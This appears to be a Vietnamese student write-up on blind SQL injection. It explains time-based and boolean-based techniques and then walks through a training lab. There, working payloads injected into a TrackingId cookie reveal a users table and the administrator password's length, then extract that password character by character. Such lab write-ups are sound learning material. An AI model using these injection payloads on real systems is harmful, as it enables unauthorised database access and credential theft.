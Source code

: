 Người thực hiện: Lê Trần Văn Chương
Deadline: 31/03 - 02/04/2022
Mục lục:
- Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Lab Blind SQLi
- Code PoC

## Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Time-based SQLi đây là 1 kỹ thuật tấn công chậm, mục đích làm trì hoãn việc truy vấn dữ liệu từ client. Trong khoảng thời gian bị trì hoãn đó kẻ tấn công có thể thực hiện các câu truy vấn khác và sau khi có phản hồi thì kẻ tấn công của có thể biết được loại DB mà máy chủ đang dụng.
- Boolean based SQLi cũng là kỹ thuật tấn công chậm, tùy thuộc vào kết quả boolean (True or False), nội dung trong phản hồi HTTP sẽ thay đổi hoặc giữ nguyên. Kết quả cho phép kẻ tấn công đánh giá liệu trọng tải được sử dụng trả về đúng hay sai.
=> Cả 2 loại tấn công trên được gọi chung là Blind SQLi.

## Lab Blind SQLi?
- Lab sử dụng tracking cookie để phân tích và truy vấn SQL. 
- Truy vấn trả về thông báo 'Welcome back!' hoặc không trả về thông báo. (True or False)

1. Ta dùng extension EditThisCookie của chrome để có thể bắt được TrackingId và TrackingId của lab là 'SHgOlSPYCX3mPVyc' của Lab.

2. Ta thêm truy vấn logic và sao TrackingId để nắm bắt cơ chế của nó.
    TrackingId' and 1=1-- => Hiện thông báo 'Welcome back!'
    TrackingId' and 1=0-- => Không hiện thông báo.

3. Ta thử thêm truy vấn select để xem thử có bảng users, username là administrator và password như lab đã cho không.
    TrackingId' and(select 'x' from users LIMIT 1)='x'-- => Hiện thông báo 'Welcome back!'. Vậy là có bảng users.
    Sử dụng Burp suite để payload username bằng cách sử dụng hàm substring để lấy từ ký tự trong username.
    TrackingId' and(select substring(username,1,1) from users LIMIT 1 )='a'-- => Hiện thông báo 'Welcome back!'. Vậy là có username là administrator.
    
    Vì không biết password có đồ dài bao nhiêu nên ta sử dụng LENGHT để có thể kiểm tra độ dài của password
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>1)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài > 1 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>25)='administrator'-- => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 25 ký tự.
    Tiếp tục test
    
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>20)='administrator'-- => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 20 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>19)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài > 19 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)=20)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài 20 ký tự.

4. Bây giờ, chúng ta đã biết username là administrator và password có đồ dài từ 20 ký tự. Sử dụng Burp suite để payload password của administrator bằng cách sử dụng hàm substring để lấy từ ký tự trong password.
    TrackingId' and(select substring(password,1,1) from users where username = 'administrator' )='a'--
    Sau khi payload thì ta có được 1 chuỗi password như sau: vxeddqsvrm6gfo75xs7h